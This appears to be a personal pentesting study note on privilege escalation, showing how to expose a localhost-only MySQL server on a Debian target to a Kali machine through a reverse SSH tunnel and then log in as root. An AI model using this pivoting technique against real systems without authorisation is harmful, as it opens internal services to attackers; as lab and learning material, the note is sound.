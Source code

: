 
2024-06-14 10:55

Source: #privesc 

Tags: [[linux]]

For some reason we were not able to run the [[mysql]] client from the debian VM or we wanted to run some commands against the mysql server from our kali machine  

**Adversary  machine:**

- Determine which port mysql listening on using `netstat -nl`
- Since 3306 is default port for mysql our desired local address is shown as `127.0.0.1:3306`
- Note that it is bound to the localhost address meaning we can't access it externally we can fix this by using [[ssh (22 port)]] port forwarding .
```
ssh -R 4444:127.0.0.1:3306 root@<kali-ip>

4444 on my kali machine 
<kali-ip> is our kali machines ip
```

**Kali machine :**

Here run mysql command and instruct it to connect to port 4444 of my local kali using the root user 
```
mysql -u root -h 127.0.0.1 -P 4444
```
traffic is then forwarded over the ssh connection, this allows you to connect to the debian mysql server remotely 

to check the hostname in mysql use 
`select @@hostname;`


### References
[[Privilege Escalation]]

[How to Set up SSH Tunneling (Port Forwarding) | Linuxize](https://linuxize.com/post/how-to-setup-ssh-tunneling/)